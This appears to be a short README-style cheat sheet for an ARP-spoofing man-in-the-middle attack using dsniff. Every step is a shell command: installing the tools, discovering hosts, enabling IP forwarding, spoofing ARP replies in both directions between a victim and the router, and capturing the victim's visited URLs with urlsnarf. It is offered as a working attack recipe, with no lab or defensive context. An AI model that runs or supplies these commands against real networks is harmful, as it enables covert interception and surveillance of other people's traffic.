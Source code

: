 Install dsniff

* `sudo -i`

* `apt-get update`

* `apt-get install dsniff`

Discover endpoints on local network

* `sudo netdiscover`

Enable port forwarding on attack box

* `echo 1 > /proc/sys/net/ipv4/ip_forward`

Generate fake ARP replies

* `sudo arpspoof -i eth0 -t <VICTIM_IP> <ROUTER_IP>`

Generate fake ARP to trick the router into believing that you are the victim. This allows you to intercept incoming internet traffic.

* `sudo arpspoof -i eth0 -t <ROUTER_IP> <VICTIM_IP>`

Extract websites that the victim visits

* `urlsnarf -i eth0`
